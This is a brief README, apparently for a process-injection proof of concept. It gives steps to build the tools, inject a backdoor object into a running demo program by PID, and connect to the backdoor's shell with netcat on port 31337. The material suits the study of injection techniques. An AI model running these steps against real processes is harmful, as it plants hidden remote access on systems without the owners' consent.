 1. Run `make`.

2. In one terminal, execute: `./saruman`.

3. In another terminal, execute: ./lurker \`pidof saruman\` \`pwd\`/bkdoor_so.so OR `./lurker --b \`pidof saruman\` bkdoor.o.bin`.

4. Finally, you can run: `nc 127.0.0.1 31337`.


